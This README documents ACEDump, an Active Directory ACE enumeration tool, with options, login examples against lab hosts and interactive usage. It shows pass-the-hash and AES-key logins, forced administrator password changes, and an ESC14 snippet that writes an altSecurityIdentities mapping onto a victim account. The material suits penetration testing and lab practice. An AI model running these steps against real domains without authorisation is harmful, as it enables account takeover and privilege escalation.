 #######
ACEDump
#######

| Enumerate Active Directory ACEs using python3 ldap3 and impacket.

|

***************
Getting Started
***************

.. code-block:: bash

    pipx install git+https://github.com/charlesgargasson/acedump.git@main
    # pipx uninstall acedump
    # pipx upgrade acedump

    # sudo apt install -y libkrb5-dev
    # sudo yum install -y krb5-devel

|

.. code-block::

    options:
    -h, --help            show this help message and exit
    -s SERVER, --server SERVER
                            Domain controller IP/hostname
    -u USERNAME, --username USERNAME
                            Username
    -p PASSWORD, --password PASSWORD
                            Password
    -d DOMAIN, --domain DOMAIN
                            Domain name
    -b BASE_DN, --base-dn BASE_DN
                            Base DN, e.g. DC=domain,DC=com
    -k, --kerberos        Use Kerberos authentication
    --tls                 Use TLS
    -f FILTER, --filter FILTER
                            LDAP filter, e.g. (|(objectClass=user))
    -H HASHES, --hashes HASHES, --nthash HASHES
                            NT hash
    --aes AES             AES hash
    --cert CERT           Certificate file
    --certkey CERTKEY     Key file
    --certpass CERTPASS   Certificate password if any
    --userdn USERDN       User DN for certificate Auth
    --kdc KDC             KDC FQDN
    --port PORT           LDAP port
    -i, --interact        Connect and spawn python console
    --dontfixtime         Don't fix clock skew
    --pagesize PAGESIZE   Size of pagination, default:500
    -q, --quiet           Quiet output
    --debug               Enable debug output
    --allsid              Include all SID (low and default RIDs)
    -e, --exec            Exec python code from stdin

|

.. image:: demo/img1.png
  :width: 1200
  :alt: IMG1

|

***********
Credentials
***********

| ACEDump support NTLM, Kerberos, X509 certificates (no pfx support yet), NT hash, AES hash, user/password, TLS (636) and StartTLS (389).
| If you don't provide any hash or password, ACEDump will try a blank password.
|
| Kerberos auth require valid DNS entries.
| If no kerberos ccache set, ACEDump retrieve a new TGT.
| If no kerberos configuration set, ACEDump will use its own.

.. code-block:: bash

    # Kerberos CCACHE
    export KRB5CCNAME='USER.ccache'
    acedump -k -s DC01.BOX.HTB -u USER -d BOX.HTB 

    # Kerberos NTHash (etype23)
    acedump -k -s DC01.BOX.HTB -u USER -d BOX.HTB -H 31d6cfe0d16ae931b73c59d7e0c089c0

    # Kerberos AES
    acedump -k -s DC01.BOX.HTB -u USER -d BOX.HTB --aes 910e4c922b7516d4a17f05b5ae6a147578564284fff8461a02298ac9263bc913

    # Kerberos user/password
    acedump -k -s DC01.BOX.HTB -u USER -d BOX.HTB -p 'FooBar_123'

    # Certificate X509 PEM over TLS (636)
    acedump -s DC01.BOX.HTB -u USER -d BOX.HTB --cert user.crt --certkey user.key --tls

    # Certificate X509 PEM with StartTLS (389)
    acedump -s DC01.BOX.HTB -u USER -d BOX.HTB --cert user.crt --certkey user.key

    # NTLM (password or hash)
    acedump -s DC01.BOX.HTB -u USER -d BOX.HTB -H 31d6cfe0d16ae931b73c59d7e0c089c0
    acedump -s DC01.BOX.HTB -u USER -d BOX.HTB -p 'FooBar_123'

    # Anonymous (untested)
    acedump -s DC01.BOX.HTB

|

***
NTP
***

| ACEDump mock LDAP's clock using currentTime attribute and libfaketime (there is no NTP request).
| Use dontfixtime option if you want to deal with clock skew by yourself.

|

****
Exec
****

| ACEDump can execute python code from stdin after connection.
| The connection object is "conn".

.. code-block:: bash

    acedump -s 10.129.211.247 -u john -p Pototo_1 -e <<< 'print(conn)'
    cat script.py | acedump -s 10.129.211.247 -u john -p Pototo_1 -e

    cat <<'EOF'| acedump -s 10.129.211.247 -u john -p Pototo_1 -e
    conn.search(args.base_dn, '(SamAccountName=Administrator)', attributes=['*'])
    print(conn.entries)
    EOF

|

***********
Interactive
***********

| ACEDump start a python console after connection.
| The connection object is "conn"

|

.. code-block::

    $ acedump -s 10.129.211.247 -u john -p Pototo_1 -i -q

      █████╗  ██████╗███████╗██████╗ ██╗   ██╗███╗   ███╗██████╗ 
     ██╔══██╗██╔════╝██╔════╝██╔══██╗██║   ██║████╗ ████║██╔══██╗
     ███████║██║     █████╗  ██║  ██║██║   ██║██╔████╔██║██████╔╝
     ██╔══██║██║     ██╔══╝  ██║  ██║██║   ██║██║╚██╔╝██║██╔═══╝ 
     ██║  ██║╚██████╗███████╗██████╔╝╚██████╔╝██║ ╚═╝ ██║██║     
     ╚═╝  ╚═╝ ╚═════╝╚══════╝╚═════╝  ╚═════╝ ╚═╝     ╚═╝╚═╝     
                -- version 0.0.9 --

    ⚠️  LDAP clock in futur 2025-06-25 02:04:56 (-7199.31662 seconds)
    ✅ StartTLS
    ✅ Authenticated as u:BOX\john

    👾 INTERACTIVE MODE 👾

      search('administrator') # Search object using SID/DN/CN/SAN
      setpassword('administrator', 'password') # Change object password using SID/DN/CN/SAN
      deleted() # Search deleted object using SID/DN/CN/SAN
      restore('deleteduser') # Restore delete object using SID/DN/CN/SAN
      last() # Print conn.last_error and conn.result
      conn.entries # Print conn's last results

    Python 3.11.2 (main, Apr 28 2025, 14:11:48) [GCC 12.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    (InteractiveConsole)
    >>> print(conn)
    ldap://10.129.211.247:389 - cleartext - user: BOX.HTB\john - not lazy - bound - open - <local: 10.10.14.191:54227 - remote: 10.129.211.247:389> - tls started - listening - SyncStrategy - internal decoder

|

| Example to set VICTIM's altSecurityIdentities attribute for ESC14.

.. code-block:: bash

    target_dn = 'CN=victim,OU=Foobar,DC=box,DC=htb'
    issuer = 'DC=htb, DC=box, CN=box-DC01-CA'
    serial = '61:00:00:00:05:3d:d7:2a:1a:e6:6f:aa:f3:00:00:00:00:00:04'

    serial = ''.join(serial.split(':')[::-1])
    altSecurityIdentities = f"X509:<I>{issuer.replace(', ', ',')}<SR>{serial}"
    
    print(altSecurityIdentities)
    # X509:<I>DC=htb,DC=box,CN=box-DC01-CA<SR>040000000000f3aa6fe61a2ad73d0500000061

    import ldap3
    conn.modify(target_dn,{'altSecurityIdentities':[(ldap3.MODIFY_ADD, altSecurityIdentities)]})
    # Return True if changed

|

| Example to search user using SamAccountName attribute

.. code-block:: bash

    conn.search(args.base_dn, '(SamAccountName=administrator)', attributes=['*'])
    conn.entries

|